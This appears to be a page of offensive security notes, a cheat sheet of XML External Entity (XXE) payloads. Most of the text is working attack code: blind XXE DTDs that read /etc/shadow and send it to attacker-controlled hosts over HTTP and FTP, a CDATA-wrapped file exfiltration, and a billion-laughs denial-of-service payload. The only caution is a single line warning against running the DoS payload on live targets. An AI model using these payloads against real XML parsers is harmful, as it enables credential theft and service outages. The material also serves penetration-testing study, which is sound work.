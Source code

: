 	```
- Blind XXE
	to exfiltrate data via a blind XXE, you have to host an external DTD on your server. Try hosting a file named xxe.dtd on your server:
	```xml
	<!ENTITY % file SYSTEM "file:///etc/shadow"> 
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?%file;'>"> 
	%ent; 
	%exfiltrate;
	```
	or 
	```xml
	<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow"> <!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?%file;'>"> 
	%ent; 
	%exfiltrate;
	```
	Then make the target parser interpret your DTD by specifying it within a parameter entity and referencing that entity: 
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ 
		<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> 
		%xxe; 
	]>
	```
- [[DoS]]  using `billion laughs attack ` 
```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ 
		<!ELEMENT example ANY> 
		<!ENTITY lol "lol"> 
		<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> 
		<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> 
		<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> 
		<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> 
		<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> 
		<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> 
		<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> 
		<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> 
		<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> 
	]>
	<example>&lol9;</example>
```
> 	**Note that you should never try this on a live target! Testing for DoS on a live target can cause the organization financial loss and is usually against companies’ bug bounty policies**

> 	This payload embeds entities within entities, causing the XML parser to recursively dereference entities to get to the root entity value lol, a single `lol9` will be expanded into one billion `lol`
- Data Exfiltration 
```xml
<!ENTITY % file SYSTEM "file:///passwords.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate 'http://attacker_server/?%start;%file;%end;'>">
 %ent; 
 %exfiltrate;
```
send files using ftp ,  here's [simple Ruby ftp server script](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)
```xml
<!ENTITY % file SYSTEM "file:///etc/shadow"> 
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://attck.com:2121/?%file;'>"> 
%ent; 
```